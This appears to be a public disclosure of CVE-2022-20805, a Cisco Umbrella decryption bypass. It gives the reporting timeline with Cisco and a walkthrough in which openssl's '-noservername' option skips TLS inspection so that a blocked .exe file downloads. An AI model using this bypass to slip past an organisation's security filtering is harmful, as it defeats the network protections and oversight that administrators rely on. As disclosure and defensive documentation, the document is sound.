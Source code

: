 While doing a troubleshooting we discovered a way to bypass Cisco Umbrella decryption, as it seems we reached the end on this we decided, 3 years after having reported the issue to Cisco, to release details publicly.

This vulnerability was confirmed by Cisco TAC the 21st of September 2021:
```
The current design is that when SNI is absent in the request we are forwarding request to the end web server without
doing MITM and not looking onto TLS version/ciphers, just the same way as if for example domain in question would be
bypassed from the decryption.
That's why TLS handshake can be done with TLS versions below TLS 1.2 because choice of it completely depends what
client and server will agree on.
We are loooking into possibility to change this behaviour and we have created internal feature request to determine
if we can implement decryption even if SNI extension is not present in Client Hello.
The behaviour when domain is bypassed from decryption will remain the same: TLS handshake will be done with the TLS
version/ciphers which client and server chosed.
When domain is not bypassed from decryption and is going through SWG engine we don't support anything below TLS1.2 and
obsolete ciphers, such requests will be dropped.
```

As no fix was provided in the following months, we contacted Cisco PSIRT the 8th of March 2022 to confirm that it was considered as a security vulnerability and ask for a corresponding security notice to be published.
After discussions CVE-2022-20805 was finally assigned and the following notice was published the 20th of April 2022: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-uswg-fdbps-xtTRKpp6

A workaround was mentionned in the notice while, from our point of view, it is not applicable in practice.

More than 2 years later, the 11th of September 2024, as still no fix was provided regarding CVE-2022-20805, we contacted Cisco PSIRT again and got at the end the below feedback:
```
Customers actually have the option to request decryption of all traffic.  However, it should be noted that due to the
product's intended design (i.e., TLS SNI must be present), as well as performance and operational impacts of enabling
this feature, this is offered as a Limited Availability (LA) by contacting umbrella-support@cisco.com.  There are
currently no plans to update the advisory as it is point in time information, however, PSIRT has coordinated with the
product team to ensure information on the related defect (CSCwb04953) is updated/maintained for customer awareness.
```

The current behavior is documented here: https://support.umbrella.com/hc/en-us/articles/4838256036756-How-Does-SWG-Handle-Traffic-Decryption-When-HTTPS-Decryption-is-Enabled

Finally, here's below how concretely Cisco Umbrella decryption can by bypassed by exploiting CVE-2022-20805:
1) When trying to download a file with .EXE extension through a standard browser we're blocked by the Umbrella policy as expected:

![alt text](CVE-2022-20805_Umbrella_EXE_blocked.PNG)

2) Using openssl we can see that Umbrella decryption applies and get the same result:
```
# openssl s_client -tls1_2 -connect raw.githubusercontent.com:443
<SNIP>
Certificate chain
0 s:C = US, ST = California, L = San Francisco, O = "Cisco Systems, Inc.", CN = raw.githubusercontent.com
   i:C = US, ST = California, L = San Francisco, O = "Cisco Systems, Inc.", CN = swg-nginx-proxy-https-334cdcf4178d.signginx.cdg1
1 s:C = US, ST = California, L = San Francisco, O = "Cisco Systems, Inc.", CN = swg-nginx-proxy-https-334cdcf4178d.signginx.cdg1
   i:O = Cisco, CN = Cisco Umbrella R1 CA
2 s:O = Cisco, CN = Cisco Umbrella R1 CA
   i:O = Cisco, CN = Cisco Umbrella Customers CA
3 s:O = Cisco, CN = Cisco Umbrella Customers CA
   i:DC = fr, DC = org-iserba, CN = Iserba-CA
<SNIP>
---
New, TLSv1.2, Cipher is ECDHE-RSA-AES256-GCM-SHA384
Server public key is 4096 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
SSL-Session:
<SNIP>
---
GET /hcjjy/lantern-binaries/master/false.exe HTTP/1.1
Host: raw.githubusercontent.com
 
HTTP/1.1 302 Moved Temporarily
Date: Mon, 25 Apr 2022 17:18:00 GMT
Content-Length: 0
Connection: keep-alive
Location: https://block.opendns.com/swg/?server=mps-6f0293c38d8d.sigenv1.cdg1&v=eyJhbGciOiAiSFM1MTIiLCAia2lkIjogIjE1NjM1NTk3OTYifQ.eyJidHlwZSI6ICIiLCAib3JnIjogNTMyMzA3NSwgIm9pZCI6IDU4NDkwODY0MSwgImJpZCI6IDEzNDUzNjMxLCAicHJmIjogMTU5NzUwNCwgInQiOiAiMTgwMDAwMDAwMDAwMDAwMDAwMDAyMUYwMDAwMDAwMDAwMDAwMDAwIiwgImJjIjogIiIsICJ1cmwiOiAiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2hjamp5L2xhbnRlcm4tYmluYXJpZXMvbWFzdGVyL2ZhbHNlLmV4ZSIsICJmdGMiOiAiZXhlIiwgImZuYW1lcyI6ICIiLCAiYnBpZCI6IDB9.5AgSH5OCftRcqVGqiRgR3lj1SJIdzJ8xqqSpLNl3ZIuMvGoep2NHpOV1Vdaj3ltz_sYnh0sHFUh5fG4el_sp3Q
Via: HTTP/1.1 m_proxy_cdg1
Via: HTTP/1.1 s_proxy_cdg1
```

3)	Still using openssl tool, we can set no SNI using the "-noservername" parameter, by doing that the Umbrella decryption doesn’t apply anymore, all the filtering achieved through decryption, like restricting some file extensions like in this example, is not anymore applied, any file can be downloaded:
```
# openssl s_client -tls1_2 -connect raw.githubusercontent.com:443 -noservername
CONNECTED(000001A4)
<SNIP>
Certificate chain
0 s:C = US, ST = California, L = San Francisco, O = "GitHub, Inc.", CN = *.github.io
   i:C = US, O = DigiCert Inc, CN = DigiCert TLS RSA SHA256 2020 CA1
1 s:C = US, O = DigiCert Inc, CN = DigiCert TLS RSA SHA256 2020 CA1
   i:C = US, O = DigiCert Inc, OU = www.digicert.com, CN = DigiCert Global Root CA
<SNIP>
---
New, TLSv1.2, Cipher is ECDHE-RSA-AES128-GCM-SHA256
Server public key is 2048 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
SSL-Session:
<SNIP>
---
GET /hcjjy/lantern-binaries/master/false.exe HTTP/1.1
Host: raw.githubusercontent.com
 
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 14557208
Cache-Control: max-age=300
Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
Content-Type: application/octet-stream
ETag: "20382cbdc623c72d3167bd9a506a97bf86c8171db852b08e8534869a8de37384"
Strict-Transport-Security: max-age=31536000
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-XSS-Protection: 1; mode=block
X-GitHub-Request-Id: A8EC:EC79:2439E05:25E2BF6:6266D7B4
Accept-Ranges: bytes
Date: Mon, 25 Apr 2022 17:27:29 GMT
Via: 1.1 varnish
X-Served-By: cache-cdg20767-CDG
X-Cache: HIT
X-Cache-Hits: 1
X-Timer: S1650907649.112261,VS0,VE16
Vary: Authorization,Accept-Encoding,Origin
Access-Control-Allow-Origin: *
X-Fastly-Request-ID: cfc13722786eb95d4f34d03d9d4bf753f478a197
Expires: Mon, 25 Apr 2022 17:32:29 GMT
Source-Age: 37
 
MZÉ           ╕       @                                   ≡   ♫▼║♫ ┤  ═!╕L═!This program cannot be run in DOS mode.
$       SAr≡↨ ∟ú↨ ∟ú↨ ∟ú¬oèú∟ ∟ú▲Xëú ∟ú0µgú∟ ∟ú↨ ↔úó ∟ú▲XÿúD ∟ú▲Xƒú█ ∟ú▲Xê
```
